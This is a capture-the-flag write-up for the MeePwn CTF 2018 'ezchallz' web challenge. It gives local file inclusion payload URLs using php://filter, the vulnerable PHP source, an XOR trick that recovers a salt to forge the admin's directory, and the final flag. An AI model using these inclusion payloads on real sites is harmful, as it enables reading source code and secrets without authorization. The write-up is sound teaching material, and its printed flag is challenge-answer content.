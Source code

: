 # MeePwn CTF 2018
## ezchallz

> http://206.189.92.209/ezchallz/

We use LFI to get website source code:
* `http://206.189.92.209/ezchallz/index.php?page=php://filter/convert.base64-encode/resource=index`
* `http://206.189.92.209/ezchallz/index.php?page=php://filter/convert.base64-encode/resource=register`


index.php:
```
<html>
<a href="index.php">Homepage</a>
<a href="?page=register">Free register</a></li>

<?php
if(isset($_GET["page"]) && !empty($_GET["page"])) {
    $page = $_GET["page"];
    if(strpos(strtolower($page), 'secret') !== false) {
        die('No no no!');
    }
//    else if(strpos($page, 'php') !== false) {
 //       die("N0 n0 n0!");
//    }
    else {
        include($page . '.php');
    }
}
?>
</html>

```

register.php:
```
<html>
<?php
error_reporting(0);

function gendirandshowflag($username) {
	include('secret.php');
	$dname = "";
	$intro = "";
	$_username = md5($username, $raw_output = TRUE);
	for($i = 0; $i<strlen($salt); $i++) {
		$dname.= chr(ord($salt[$i]) ^ ord($_username[$i]));
	};
	$dname = "users/" . bin2hex($dname);
	echo 'You have successfully register as ' . $username . '!\n';
	if ($_username === hex2bin('21232f297a57a5a743894a0e4a801fc3')) {
		$intro = "Here is your flag:" . $flag;
	}
	else {
		$intro = "Here is your flag, but I'm not sure 🤔: \nMeePwnCTF{" . md5(random_bytes(16) . $username) . "}";
	}
	mkdir($dname);
	file_put_contents($dname . '/flag.php', $intro);
	header("Location: ". $dname . "/flag.php");
}

if (isset($_POST['username'])) {
	if ($_POST['username'] === 'admin') {
		die('Username is not allowed!');
	}
	else {
		gendirandshowflag($_POST['username']);
	}
}
?>

        <form action="?page=register" method="POST">
        <input type="text" name="username"><br>
        <input type="submit" value="Register">
        </form>
</html>
```

In file register.php we have some code which takes `$username` which is input from user.
md5 hash of an empty string is well defined to be: `d41d8cd98f00b204e9800998ecf8427e`. 
In server response we get `$dname` as a part of URL.
By passing empty `$username` and xoring returned `$dname` with md5 of empty string, we obtain `$salt` which is: `b1ab607479941741db48b1e47d582c1d`.

Now we can xor `$salt` with `md5('admin')` to get `$dname` which corresponds to admin which is: `90884f5d03c3b2e698c1fbea37d833de`.

Now we use LFI to get admins flag.php file:
`http://206.189.92.209/ezchallz/index.php?page=php://filter/convert.base64-encode/resource=users/90884f5d03c3b2e698c1fbea37d833de/flag`

The flag is: `MeePwnCTF{just-a-warmup-challenge-are-you-ready-for-hacking-others-challz?}`
